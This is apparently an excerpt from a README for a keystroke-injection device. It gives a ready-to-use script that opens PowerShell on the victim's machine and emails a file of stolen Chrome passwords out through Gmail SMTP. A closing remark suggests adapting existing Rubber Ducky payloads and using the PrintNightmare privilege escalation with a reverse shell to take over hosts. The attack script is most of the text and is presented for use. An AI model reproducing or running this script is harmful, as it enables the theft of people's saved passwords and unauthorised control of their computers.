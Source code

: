 ```php
Press:131+114
CustomDelay:200
Print:powershell
Press:176
CustomDelay:500
Print:$SMTPServer = 'smtp.gmail.com'
Press:176
CustomDelay:100
Print:$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
Press:176
CustomDelay:100
Print:$SMTPInfo.EnableSSL = $true
Press:176
CustomDelay:100
Print:$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR_EMAIL', 'YOUR_PASSWORD')
Press:176
CustomDelay:100
Print:$SMTPServer = $E = New-Object System.Net.Mail.MailMessage
Press:176
CustomDelay:100
Print:$E.From = 'YOUR_EMAIL'
Press:176
CustomDelay:100
Print:$E.To.Add('YOUR_EMAIL')
Press:176
CustomDelay:100
Print:$E.Subject = $env:UserName
Press:176
CustomDelay:100
Print:$E.Body = 'Success! The password file is attached!'
Press:176
CustomDelay:100
Print:$F = 'Documents/chromepasswords.csv'
Press:176
CustomDelay:100
Print:$E.Attachments.Add($F)
Press:176
CustomDelay:100
Print:$F = $SMTPInfo.Send($E)
Press:176
CustomDelay:100
Print:exit
Press:176
```

You can search for scripts already created for rubber ducky (of which by reputation there are many and updated) and convert them to the language of this tool with *Duckuino Mode* (check it because sometimes it makes errors in the strings).
Even run the Windows CVE 2021 1675 PrintNightmare Administrative Escalation vulnerability with a reverse shell to gain full control of a host.
Anyway it is cross-platform either for Windows, Linux, Mac OS or Android.
